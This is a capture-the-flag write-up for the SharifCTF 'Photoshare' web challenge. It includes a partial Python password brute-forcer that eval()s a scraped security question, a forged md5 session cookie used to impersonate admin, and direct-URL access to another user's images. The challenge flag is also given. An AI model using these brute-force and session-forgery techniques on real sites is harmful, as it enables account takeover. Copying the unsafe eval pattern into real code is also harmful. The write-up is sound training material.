








# Photoshare (250 PTS)
### Description

>Photoshare is an internet based photo sharing service. Login to this website as admin.
>
>web: ctf.sharif.edu:8084
>
>username: jack
>
>password: Year and month of Jack's birthday.

>Hint:No need for XSS or bypassing the uploader.

Flag: ```SharifCTF{kmvfwmj6sea7get9wggu249ehjc8hmdd}```

### Solution

<p></p>

Website welcomes us with a login form. Username is known from the description (```jack```), password mask is ```YYYYMM``` (also from the description), secret question is pretty simple. So we need to investigate a html code and write a bruteforcer.

<p></p>

I marked fields which should be extracted. I've used Python for writing it.

```python
import re
import requests

def get_hidden(url):
    response = requests.get(url)
    html = response.text
    question = re.search('name="SecQuestion" placeholder="(.*?)"', html)[1]
    answer = eval(question.split('=')[0].replace('x', '*'))
    field = re.search('name="field" value="(\w+)"', html)[1]
    token = re.search('name="_token" value="(\w+)">', html)[1]
    return response.cookies, answer, field, token

def get_passwords():
    for year in range(1900, 2019):
        for month in range(1, 13):
            yield '%04d%02d' % (year, month)
```

Full code you can see in [brute.py](brute.py). Run it and... yeah!
```
Found password for jack: 195408
```

Now we can login as jack.

<p></p>

<p></p>

Website has two pages: we can upload a photo with id from 1 to 6 and show it on the showcase.
Look at the urls.

<p></p>

It seems that we can insert any username instead of ```jack```, but it causes 403.

<p></p>

Interesting, but we're following Hint and ```not bypassing the uploader```. Look at the cookie called ```session_id``` instead! Yes, it's just an md5 hash which can easily be cracked.

```
session_id=a6da08ce385c95026045150daf37e2f8 = md5(jack34)
```

After some experiments I decided that we can write here hashes of jacks from ```jack1``` to ```jack60```, but it isn't important. Authors asks us to login as ```admin```, so let's do it! Try to set ```md5(admin34)``` and reload the page.

```python
>>> md5(b'admin34').hexdigest()
'06d6d78ec1dd8f97a0475ecfd034c55c'
>>>
```

<p></p>

Oops! Security check. But what if we open images directly from urls? For example image with ```id=3```:

```
http://ctf.sharif.edu:8084/GetPicture/admin/3
```

<p></p>

Yeah, got it! His name is ```Mr. Tashakkor```. Now we can use it for entering the website.

<p></p>
